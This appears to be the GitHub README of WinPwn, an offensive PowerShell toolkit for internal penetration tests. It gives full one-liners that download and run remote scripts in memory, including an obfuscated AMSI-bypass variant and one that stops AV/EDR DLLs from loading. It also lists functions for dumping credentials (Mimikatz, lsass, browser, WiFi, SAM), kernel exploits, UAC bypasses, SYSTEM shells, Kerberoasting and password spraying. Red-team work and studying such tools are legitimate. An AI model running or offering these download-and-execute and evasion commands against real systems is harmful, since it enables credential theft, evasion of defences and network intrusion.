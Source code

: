 [![](https://img.shields.io/badge/Donate-Bitcoin-blue.svg?style=flat)](https://blockchain.info/address/1MXReD1F4w5SUXK3phLVJ5M8KrXJHfecmZ)

# WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I also often ran the same scripts one after the other to get information about the current system and/or the domain. To automate as many internal penetrationtest processes (reconnaissance as well as exploitation) and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Any suggestions, feedback, Pull requests and comments are welcome! 

Just Import the Modules with:

`Import-Module .\WinPwn.ps1` or 
`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')`

For AMSI Bypass use the following oneliner:

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/ObfusWinPwn.ps1')`

Spawn a new protected PowerShell Process that is set to run with BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON process mitigation:

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/Obfus_SecurePS_WinPwn.ps1')`

This prevents non-microsoft DLLs (e.g. AV/EDR products) to load into PowerShell.

If you find yourself stuck on a windows system with no internet access - no problem at all, just use Offline_Winpwn.ps1, all scripts and executables are included.

Functions available after Import:
* #### `WinPwn` -> Menu to choose attacks:
![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/images/WinPwn.JPG)
* #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
* #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
* #### `kittielocal` ->
  * Obfuscated Invoke-Mimikatz version
  * Safetykatz in memory
  * Dump lsass using rundll32 technique
  * Download and run obfuscated Lazagne
  * Dump Browser credentials
  * Customized Mimikittenz Version
  * Exfiltrate Wifi-Credentials
  * Dump SAM-File NTLM Hashes
* #### `localreconmodules` -> 
  * Collect installed software, vulnerable software, Shares, network information, groups, privileges and many more
  * Check typical vulns like SMB-Signing, LLMNR Poisoning, MITM6 , WSUS over HTTP
  * Checks the Powershell event logs for credentials or other sensitive informations
  * Collect Browser Credentials and history
  * Search for passwords in the registry and on the file system
  * Find sensitive files (config files, RDP files, keepass Databases)
  * Search for .NET Binaries on the local system 
  * Optional: Get-Computerdetails (Powersploit) and PSRecon
* #### `domainreconmodules` -> 
  * Collect various domain informations for manual review
  * Find AD-Passwords in description fields
  * Search for potential sensitive domain share files
  * ACLAnalysis
  * Unconstrained delegation systems/users are enumerated
  * MS17-10 Scanner for domain systems
  * Bluekeep Scanner for domain systems
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more)
  * MS-RPRN Check for Domaincontrollers or all systems
  * Group Policy Audit with Grouper2
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
* #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords, dll Hijacking, File Permissions, IKEExt Check, Rotten/Juicy Potato Check)
* #### `kernelexploits` ->
  * MS15-077 - (XP/Vista/Win7/Win8/2000/2003/2008/2012) x86 only!
  * MS16-032 - (2008/7/8/10/2012)!
  * MS16-135 - (WS2k16 only)!
  * CVE-2018-8120 - May 2018, Windows 7 SP1/2008 SP2,2008 R2 SP1!
  * CVE-2019-0841 - April 2019!
  * CVE-2019-1069 - Polarbear Hardlink, Credentials needed - June 2019!
  * CVE-2019-1129/1130 - Race Condition, multiples cores needed - July 2019!
  * CVE-2019-1215 - September 2019 - x64 only!
  * CVE-2020-0638 - February 2020 - x64 only!
  * Juicy-Potato Exploit
* #### `UACBypass` ->
  * UAC Magic, Based on James Forshaw's three part post on UAC
  * UAC Bypass cmstp technique, by Oddvar Moe
  * DiskCleanup UAC Bypass, by James Forshaw
  * DccwBypassUAC technique, by Ernesto Fernandez and Thomas Vanhoutte
* #### `SYSTEMShell` ->
  * Pop System Shell using CreateProcess
  * Pop System Shell using NamedPipe Impersonation
  * Pop System Shell using Token Manipulation
  * Bind System Shell using UsoClient DLL load or CreateProcess
* #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
* #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
* #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
* #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
* #### `Sharphound` -> Bloodhound 3.0 Report
* #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record
* #### `MS17-10` -> Scan active windows Servers in the domain or all systems for MS17-10 (Eternalblue) vulnerability
* #### `Sharpcradle` -> Load C# Files from a remote Webserver to RAM
* #### `DomainPassSpray` -> DomainPasswordSpray Attacks, one password for all domain users
* #### `bluekeep` -> Bluekeep Scanner for domain systems


## TO-DO
- [x] Some obfuskation
- [x] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/S3cur3Th1sSh1t/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [x] Add MS17-10 Scanner
- [x] Add menu for better handling of functions
- [x] Amsi Bypass
- [ ] Mailsniper integration

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock, Amsi Bypass,  PPID Spoof & BlockDLLs
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL
- [X] [Cn33liz](https://github.com/Cn33liz/) - p0wnedShell
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - AmsiScanBufferBypass
- [X] [l0ss](https://github.com/l0ss/) - Grouper2
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [enjoiz](https://github.com/enjoiz/Privesc) - PrivEsc
- [X] [itm4n](https://github.com/itm4n) - Invoke-PrivescCheck
- [X] [James Forshaw](https://github.com/tyranid) - UACBypasses
- [X] [Oddvar Moe](https://github.com/api0cradle) - UACBypass
- [X] [Carlos Polop](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) - winPEAS

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
